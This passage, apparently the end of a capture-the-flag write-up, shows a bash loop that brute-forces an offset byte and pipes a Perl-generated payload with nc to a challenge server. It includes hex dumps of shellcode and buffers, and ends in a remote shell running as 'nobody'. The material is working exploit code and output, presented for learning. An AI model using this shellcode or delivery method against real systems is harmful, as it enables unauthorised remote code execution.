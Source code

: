 The final step was just bruteforcing the value of offset from the 256 possibilities and hoping that it wouldn't be one of the bytes that would cause the script to break.

{language=python}
~~~~~~~~
$ for a in {0..255} ; do ./solve.pl $a ; echo "=================" ; echo OFFSET $a ; cat solution /dev/tty | nc -vvvvvvv 52.4.108.221 4444 ; echo "====================" ; done

...


====================
intermediate buffer:
  0000: 09 70 8f e2 17 ff 2f e1 12 00 0a 16 0c 0d 0e 0f  .p..../.........
  0010: b0 31 08 1c 49 1a 0b 27 01 df 15 1b 13 1d 1e 1f  .1..I..'........
  0020: 20 21 22 23 24 25 26 04 28 29 2a 2b 2c 2d 2e 06   !"#$%&.()*+,-..
  0030: 30 11 32 33 34 35 36 37 38 39 3a 3b 3c 3d 3e 3f  0.23456789:;<=>?
  0040: 40 41 42 43 44 45 46 47 48 14 4a 4b 4c 4d 4e 4f  @ABCDEFGH.JKLMNO
  0050: 50 51 52 53 54 55 56 57 58 59 5a 5b 5c 5d 5e 5f  PQRSTUVWXYZ[\]^_
  0060: 60 61 62 63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f  `abcdefghijklmno
  0070: 18 71 72 73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f  .qrstuvwxyz{|}~.
  0080: 80 81 82 83 84 85 86 87 88 89 8a 8b 8c 8d 8e 02  ................
  0090: 90 91 92 93 94 95 96 97 98 99 9a 9b 9c 9d 9e 9f  ................
  00a0: a0 a1 a2 a3 a4 a5 a6 a7 a8 a9 aa ab ac ad ae af  ................
  00b0: 10 b1 b2 b3 b4 b5 b6 b7 b8 b9 ba bb bc bd be bf  ................
  00c0: c0 c1 c2 c3 c4 c5 c6 c7 c8 c9 ca cb cc cd ce cf  ................
  00d0: d0 d1 d2 d3 d4 d5 d6 d7 d8 d9 da db dc dd de 19  ................
  00e0: e0 07 03 e3 e4 e5 e6 e7 e8 e9 ea eb ec ed ee ef  ................
  00f0: f0 f1 f2 f3 f4 f5 f6 f7 f8 f9 fa fb fc fd fe 05  ................

attempted shellcode:
  0000: 09 70 8f e2 17 ff 2f e1 2e 2e 2e 2e 2e 2e 2e 2e  .p..../.........
  0010: b0 31 08 1c 49 1a 0b 27 01 df                    .1..I..'..

final buffer:
  0000: 09 70 8f e2 17 ff 2f e1 05 12 00 0a 16 0c 0d 0e  .p..../.........
  0010: b0 31 08 1c 49 1a 0b 27 01 df 15 1b 13 1d 1e 1f  .1..I..'........
  0020: 20 21 22 23 24 25 26 04 28 29 2a 2b 2c 2d 2e 06   !"#$%&.()*+,-..
  0030: 30 11 32 33 34 35 36 37 38 39 3a 3b 3c 3d 3e 3f  0.23456789:;<=>?
  0040: 40 41 42 43 44 45 46 47 48 14 4a 4b 4c 4d 4e 4f  @ABCDEFGH.JKLMNO
  0050: 50 51 52 53 54 55 56 57 58 59 5a 5b 5c 5d 5e 5f  PQRSTUVWXYZ[\]^_
  0060: 60 61 62 63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f  `abcdefghijklmno
  0070: 18 71 72 73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f  .qrstuvwxyz{|}~.
  0080: 80 81 82 83 84 85 86 87 88 89 8a 8b 8c 8d 8e 02  ................
  0090: 90 91 92 93 94 95 96 97 98 99 9a 9b 9c 9d 9e 9f  ................
  00a0: a0 a1 a2 a3 a4 a5 a6 a7 a8 a9 aa ab ac ad ae af  ................
  00b0: 10 b1 b2 b3 b4 b5 b6 b7 b8 b9 ba bb bc bd be bf  ................
  00c0: c0 c1 c2 c3 c4 c5 c6 c7 c8 c9 ca cb cc cd ce cf  ................
  00d0: d0 d1 d2 d3 d4 d5 d6 d7 d8 d9 da db dc dd de 19  ................
  00e0: e0 07 03 e3 e4 e5 e6 e7 e8 e9 ea eb ec ed ee ef  ................
  00f0: f0 f1 f2 f3 f4 f5 f6 f7 f8 f9 fa fb fc fd fe 0f  ................

output:
  0000: 00 09 01 70 02 8f 03 e2 04 17 05 ff 06 2f 07 e1  ...p........./..
  0010: 10 b0 11 31 12 08 13 1c 14 49 15 1a 16 0b 17 27  ...1.....I.....'
  0020: 18 70 19 df 08 ff 09 ff 0a ff 0b ff 0c ff 0d ff  .p..............
  0030: 0e ff 0f ff 61 61                                ....aa
=================
OFFSET 176
ec2-52-4-108-221.compute-1.amazonaws.com [52.4.108.221] 4444 (krb524) open


id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
~~~~~~~~